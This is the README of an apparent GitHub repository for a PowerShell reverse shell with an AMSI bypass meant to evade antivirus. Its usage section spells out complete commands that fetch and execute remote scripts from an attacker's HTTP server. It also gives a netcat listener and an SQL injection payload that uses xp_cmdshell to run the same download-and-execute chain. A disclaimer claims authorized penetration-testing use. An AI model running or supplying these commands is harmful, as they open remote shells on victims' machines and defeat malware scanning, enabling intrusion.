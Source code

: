 # PowerShell Reverse Shell with AMSI Bypass

This repository contains a PowerShell script to establish a reverse shell connection while bypassing AMSI (Antimalware Scan Interface) to evade detection by antivirus software. The script is designed for educational purposes and penetration testing in authorized environments.

---

## Table of Contents
1. [Description](#description)
2. [Requirements](#requirements)
3. [Usage](#usage)
4. [How It Works](#how-it-works)
5. [Why Linkin Park?](#why-linkin-park)
6. [Disclaimer](#disclaimer)

---

## Description

This project demonstrates how to:
1. Bypass AMSI to disable antivirus detection.
2. Download and execute a PowerShell reverse shell script from a remote server.
3. Establish a reverse shell connection to a specified IP and port.

The repository includes:
- `amsi.txt`: A script to bypass AMSI.
- `shell.ps1`: A PowerShell reverse shell script.

---

## Requirements

To use this project, you need:
- A Windows machine with PowerShell installed.
- A remote server to host the `amsi.txt` and `shell.ps1` files (e.g., a Python HTTP server).
- A listener on the attacker's machine to receive the reverse shell connection (e.g., `netcat`).

---

## Usage

### 1. Set Up the HTTP Server
Host the `amsi.txt` and `shell.ps1` files on a remote server. You can use a Python HTTP server for this:

```bash
python -m http.server 8000
```

### 2. Start a Listener
On the attacker's machine, start a listener to receive the reverse shell connection:

```bash
rlwrap -cAr nc -lvp 443
```

### 3. Execute the Payload

#### **From the Target Machine (CMD)**:
On the target machine, run the following command in CMD:

```cmd
powershell -ExecutionPolicy Bypass -NoProfile -Command "Invoke-Expression (Invoke-WebRequest -Uri 'http://192.168.1.94/amsi.txt' -UseBasicParsing | Select-Object -ExpandProperty Content); $scriptContent = [System.Text.Encoding]::UTF8.GetString((Invoke-WebRequest -Uri 'http://192.168.1.94/shell.ps1' -UseBasicParsing).Content); Invoke-Expression $scriptContent"

or this one:
powershell -nop -ep Bypass -c "iex (iwr 'http://192.168.1.94/amsi.txt' -UseBasicParsing).Content; $s=[Text.Encoding]::UTF8.GetString((iwr 'http://192.168.1.94/shell.ps1' -UseBasicParsing).Content); iex $s"

```

Replace `192.168.1.94` with the IP address of your HTTP server.

---

#### **From an SQL Injection (Burp Suite)**:
If you have an SQL Injection vulnerability where you can execute commands using `xp_cmdshell`, run the following command from Burp Suite:

```sql
parameter=test'; EXEC xp_cmdshell 'powershell IEX (Invoke-WebRequest -Uri \"http://192.168.1.94/amsi.txt\" -UseBasicParsing).RawContent ; $scriptContent = [System.Text.Encoding]::UTF8.GetString((Invoke-WebRequest -Uri \"http://192.168.1.94/shell.ps1\" -UseBasicParsing).Content); Invoke-Expression $scriptContent';--
```

**Steps**:
1. Replace `http://192.168.1.95` with the IP address of your HTTP server.
2. Convert the command to URL encoding using **Ctrl + U** in Burp Suite.
3. Send the request to execute the payload.

---

## How It Works

1. **AMSI Bypass**:
   - The `amsi.txt` script disables AMSI, allowing the execution of scripts that would otherwise be blocked by antivirus software.

2. **Reverse Shell**:
   - The `shell.ps1` script establishes a TCP connection to the attacker's machine and provides an interactive shell.

3. **Remote Execution**:
   - The payload is downloaded and executed directly in memory, reducing the chances of detection by endpoint protection tools.

---

## Why Linkin Park?

The variables in the `shell.ps1` script are named after members of the band **Linkin Park** as a tribute to their music and legacy. Here's the breakdown:
- `$chester`: Chester Bennington, the iconic lead vocalist.
- `$mike`: Mike Shinoda, the band's co-lead vocalist, rapper, and multi-instrumentalist.
- `$shinoda`: Another nod to Mike Shinoda.
- `$bennington`: Chester Bennington's last name.
- `$hahn`: Joe Hahn, the band's DJ and creative director.
- `$phoenix`: Phoenix Farrell, the bassist.
- `$bourdon`: Rob Bourdon, the drummer.

This naming convention adds a personal touch to the script while maintaining its functionality.

---

## Disclaimer

This project is intended for educational and authorized penetration testing purposes only. Do not use this tool for illegal or malicious activities. The author is not responsible for any misuse of this software. Always ensure you have proper authorization before using this tool in any environment.
